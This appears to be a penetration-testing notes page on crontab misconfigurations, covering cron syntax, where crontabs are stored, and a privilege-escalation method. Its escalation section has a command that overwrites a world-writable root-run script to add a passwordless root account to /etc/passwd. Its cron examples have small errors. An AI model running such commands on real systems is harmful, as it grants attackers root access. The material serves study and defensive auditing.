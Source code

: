 # CronTab MissConfigurations

A crontab file contains instructions to the cron daemon of the general form: "run this command at this time on this date".

Each User own a crontab file.

### Table of Contents

- [Crontab syntax](#crontab-syntax)
- [Recognition](#recognition)
- [Usage](#usage)
- [Privilege Escalation](#privilege-escalation)
- [Docu](#documentation)

## Crontab syntax

```crontab
* * * * * <command to be executed>
- - - - -
| | | | |
| | | | ----- Weekday (0 - 7) (Sunday is 0 or 7, Monday is 1...)
| | | ------- Month (1 - 12)
| | --------- Day (1 - 31)
| ----------- Hour (0 - 23)
------------- Minute (0 - 59)
```

In system-wide crontabs, you can specify the user.

```crontab
* * * * * <username> <command to be executed>
```

## Recognition

List and verify every crontab call to find a vulnerability:

- current cron for the user:

  ```bash
  $>crontab -l
  ```

- system-wide crontab

  /etc/cron.d
  /ect/cron.hourly
  /etc/cron.daily
  /etc/cron.weekly
  /etc/cron.monthly

## Usage

By default, Cron runs as root when executing /etc/crontab, so any commands or scripts that are called by the crontab will also run as root.

#### Call a script write /etc/cron.\*

```bash
01 * * * * root run-parts /etc/cron.hourly
```

## Privilege Escalation

### Two way to escalade privilege with CronTab

#### Miss protected script

/etc/cron call a script miss protected (every user can edit it, and make their command executable by the root)

```bash
3 * * * * cd /path/to/script.sh

# every 3 min the script is launch by root
$>ls -la /path/to/script.sh
-rw-rw-rw- 1 root root 11833 Aug 30  2015
#every one can modify it
$>echo '“gottie::0:0:System Administrator:/root/root:/bin/bash” >> /etc/passwd ' > /path/to/script.sh
#next call to the script, gottie is now a root with no passwd to login
```

#### Vulnerable Script

If you can't write into the script maybe you can find a vulnerablily inside it!

### Documentation

- [Man crontab](https://linux.die.net/man/5/crontab)
- [Crontab privilege Esacalad](https://medium.com/swlh/privilege-escalation-via-cron-812a9da9cf1a)

---

[**:arrow_right_hook: Back home**](../README.md)

